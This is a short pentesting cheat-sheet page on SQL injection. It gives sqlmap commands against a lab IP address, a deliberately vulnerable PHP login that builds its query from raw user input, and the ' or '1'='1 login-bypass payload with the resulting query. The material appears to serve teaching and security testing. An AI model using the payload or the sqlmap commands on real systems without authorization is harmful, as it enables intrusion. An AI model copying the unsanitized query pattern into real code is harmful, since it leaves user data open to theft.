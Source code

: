 # SQL Injections

### Tldr <a id="tldr"></a>

```text
# Post
./sqlmap.py -r request.txt -p username

# Get
sqlmap -u "http://192.168.1.101/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://192.168.1.101 --dbms=mysql --crawl=3
```

### How does sql-injections work? <a id="how-does-sql-injections-work"></a>

So we have a website that is written in php. We have a login functionality, where the code looks like this:

```text
mysql_connect("localhost", "pelle", "mySecretPassowrd") or die(mysql_error());

mysql_select_db("myHomepage");

if ($_POST['uname'] != ""){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
    $result = mysql_query($query);
    $row = mysql_fetch_array($result);
}
```

So the user input is not filtered or sanitized in any way. Which means that what the users puts in in the login-form will be executed my mysql. So just like in xss-injections we just try to escape the input field to be able to execute sql-commands. So if we input the following into the user-field and password-field in the login:

```text
whatever' or '1'='1
whatever' or '1'='1
```

The query will look like this:

```text
$query = "SELECT * FROM users WHERE username = 'whatever' OR '1'='1' AND password='whatever' OR '1'='1'";
```

Since they both become true the database will retrieve all users and we will be able to bypass the login.
